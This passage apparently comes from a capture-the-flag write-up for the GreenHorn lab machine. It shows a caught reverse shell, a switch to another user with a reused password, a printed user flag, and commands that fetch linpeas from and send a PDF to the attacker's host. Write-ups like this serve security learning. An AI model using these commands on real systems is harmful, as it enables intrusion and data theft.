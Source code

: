 ```shell
$ wget http://10.10.16.75/linpeas.sh -o linpeas.sh
wget: linpeas.sh: Permission denied
$ pwd
/var/www
$ whoami
www-data
$ ls
html
$ su junior
Password: iloveyou1
ls
html
cd ~
ls
user.txt
Using OpenVAS.pdf
cat user.txt
6fde402e4829b699a23636fc9ae17cb5

```

user flag: 6fde402e4829b699a23636fc9ae17cb5

## 4: Obtain Root Flag

Transfer Using OpenVAS.pdf to our kali:
```shell
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.75] from (UNKNOWN) [10.10.11.25] 42668
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 12:38:26 up  3:22,  1 user,  load average: 0.07, 0.02, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    10.10.16.27      12:07   29:12   0.18s  0.00s /usr/bin/curl -s http://greenhorn.htb/?file=welcome-to-greenhorn
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ su junior
Password: iloveyou1
cd ~
ls
user.txt
Using OpenVAS.pdf
nc -q 0 10.10.16.75 8000 < "Using OpenVAS.pdf"
ls
user.txt
Using OpenVAS.pdf



```
